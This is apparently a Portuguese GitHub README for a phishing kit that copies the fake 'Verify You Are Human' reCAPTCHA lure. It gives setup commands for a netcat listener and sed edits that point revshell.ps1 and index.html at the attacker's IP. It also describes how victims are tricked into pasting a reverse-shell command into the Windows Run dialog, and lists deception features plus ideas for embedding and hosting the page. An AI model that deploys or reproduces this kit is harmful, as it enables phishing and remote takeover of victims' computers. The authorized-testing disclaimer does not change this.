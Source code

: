 # revshellBy-CAPTCHA

> 44384e | Outubro 27, 2024

------------------------------


Este código deve ser utilizado em ambiente controlado onde você tenha permissão para realizar o teste de fishing.

Ouça com o netcat em uma porta especifica, lembre de alterar no `sed` abaixo.
```
nc -nvlp 999
```


altere no codigo para seu ip publico e a porta que está ouvindo o netcat.
```
ip-address=$(curl ip.me)
sed -i 's/localhost/$ip-address/g' ./revshell.ps1
sed -i 's/localhost/$ip-address/g' ./index.html
sed -i 's/port/SuaPortaDoNETCAT/g' ./revshell.ps1
```



![Verify You Are Human](https://github.com/user-attachments/assets/56be51b9-e58d-40e9-bdb1-54bcc11d4180)

Este é uma pequena amostra para recriar a engenharia social e a isca de phishing vista recentemente na natureza por volta de agosto/setembro de 2024.

## 🪝 Usando a Isca

Visto originalmente com o disfarce **"Verifique se você é humano"**, o vetor de ataque sendo _**copiar e colar**_.

Ele literalmente instrui o usuário a abrir a caixa de diálogo Executar do Windows com a tecla de atalho `Win+R` e fazer com que ele cole um comando malicioso com `Ctrl+V` que o navegador da web copiou preventivamente para a área de transferência.

![Verification Steps](https://github.com/user-attachments/assets/77e9adcb-672e-4a45-845d-58a90ba22935)

Apesar de ser... **_idiota_**... claro, provavelmente funciona. 😅


----------

## 🎨 Recriação

> [!CAUTION]
> O código é ruim porque sou um péssimo programador.

Considerando que o original foi criado para emular um formulário reCAPTCHA , pensei que essa "arte" (se é que você ousa chamá-la assim) poderia ser melhorada. 😈Por que não fazer com que pareça o mais próximo possível do botão real do reCAPTCHA?

![reCAPTCHA](https://github.com/user-attachments/assets/3967e15b-0717-4db4-afa1-62394e47f3b2)

![New Steps](https://github.com/user-attachments/assets/2fac92b1-fdff-4a67-883b-b8c1b8ae4aa7)

Este repositório inclui parte do meu código brincando com essa ideia.

Na verdade, tudo o que você precisa é `index.html`. Ele inclui o CSS e o JavaScript em um único arquivo para facilitar o uso, mas pode precisar de mais personalização para alterar o comando que é executado (veja o JavaScript no final da `showVerifyWindow`função). Isso pode ser usado como um arquivo autônomo e executar qualquer comando local, mas para obter um pouco mais de flexibilidade com a execução do código, este repositório inclui um arquivo HTA de amostra `recaptcha-verify` para uma prova inocente de conceito de abrir o aplicativo da calculadora do Windows. Este arquivo HTA secundário significaria que ele precisa ser hospedado no lado do servidor ou ter alguma outra infraestrutura de suporte para oferecer a carga útil.

Para testes locais rápidos, eu literalmente usei apenas `python -m http.server 8000`.

O arquivo HTA também oferece uma oportunidade para uma charada mais convincente, potencialmente com uma janela que aparece para "tentar se conectar aos servidores reCAPTCHA", mas informa que falhou e solicita que o usuário faça tudo de novo. 🤪 (Alguém quer retornos de chamada extras?)

![Fail to connect](https://github.com/user-attachments/assets/b3e062a5-eb2a-4c43-9b6f-411625e7f740)

Então esta recreação tem algumas vantagens extras:

* Parece e funciona como um reCAPTCHA "real" ( imagem do site oficial do Google )
* Validação na caixa Executar para "ocultar" o comando (✅ "Não sou um robô - ID de verificação do reCAPTCHA: 7624" )
* Botão "Verificar" desabilitado para incentivar ainda mais os usuários a concluir as etapas de copiar e colar. 🚫
* Phishing desenvolvido com as janelas de acompanhamento "falha na verificação"
* Limpa a área de transferência para que o comando de carga útil seja removido.


-------------

## 🤔 Outras reflexões 

* Talvez isso pudesse ser usado dentro de um `iframe` elemento ou facilmente incorporado como um widget em qualquer lugar .
* Talvez isso pudesse ter um pouco mais de controle do lado do servidor para verificar o agente do usuário do cliente e fazer as coisas de forma diferente, ou ajustar a carga útil adequadamente.
* Talvez isso pudesse ser transformado em um Github Pages ou Vercel tidbit fácil para ter um domínio público e ferramentas fáceis


<h1>Legal Disclaimer:</h1>
**O uso desta ferramenta para atacar alvos sem consentimento mútuo prévio é ilegal. É responsabilidade do usuário final obedecer a todas as leis locais, estaduais e federais aplicáveis. Os desenvolvedores não assumem nenhuma responsabilidade e não são responsáveis ​​por qualquer uso indevido ou dano causado pelo programa

